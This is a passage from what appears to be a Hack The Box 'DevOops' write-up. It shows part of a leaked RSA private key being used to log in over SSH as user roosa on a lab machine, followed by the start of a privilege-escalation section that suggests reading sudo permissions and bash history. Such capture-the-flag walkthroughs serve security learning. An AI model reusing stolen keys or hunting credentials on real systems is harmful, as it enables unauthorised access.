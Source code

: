 ```
82W3d4vCUPkKnrgG8F7s3GL6cqWcbZBd0j9u88fUWfPxfRaQU3s=
-----END RSA PRIVATE KEY-----
```

Excellent. Now, I save the content of the private key to a file, and try to access the machine using ssh.

```
root@kali:~/htb/boxes/DevOops# ssh -i id_rsa roosa@10.10.10.91
The authenticity of host '10.10.10.91 (10.10.10.91)' can't be established.
ECDSA key fingerprint is SHA256:hbD2D4PdnIVpAFHV8sSAbtM0IlTAIpYZ/nwspIdp4Vg.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.91' (ECDSA) to the list of known hosts.
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
Load key "id_rsa": bad permissions
roosa@10.10.10.91's password: 

root@kali:~/htb/boxes/DevOops# chown 0600 id_rsa 
root@kali:~/htb/boxes/DevOops# ssh -i id_rsa roosa@10.10.10.91
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.13.0-37-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

135 packages can be updated.
60 updates are security updates.


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

roosa@gitter:~$ id & whoami
[1] 1760
roosa
roosa@gitter:~$ uid=1002(roosa) gid=1002(roosa) groups=1002(roosa),4(adm),27(sudo)
```

# Privilege Escalation

One of the first things I do when trying to escalate a machine is to check for what permissions the user has and what commands he/she has been running. I do this usually by running `sudo -l`, `cat .bash_history` or `history`.
